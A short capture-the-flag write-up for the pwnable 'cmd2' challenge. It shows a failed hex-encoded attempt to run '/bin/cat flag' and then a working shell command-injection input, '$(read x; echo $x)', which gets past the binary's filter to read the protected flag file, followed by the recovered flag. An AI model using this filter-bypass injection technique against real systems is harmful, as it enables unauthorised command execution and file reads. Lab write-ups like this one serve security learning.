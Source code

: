 cmd2


After much consideration and failiure:
including echo -e \x2f\x62\x69\x6e\x2f\x63\x61\x74\x20\x66\x6c\x61\x67
which didn't work
I found:
cmd2@pwnable:~$ ./cmd2 '$(read x; echo $x)'
$(read x; echo $x)
/bin/cat flag
FuN_w1th_5h3ll_v4riabl3s_haha
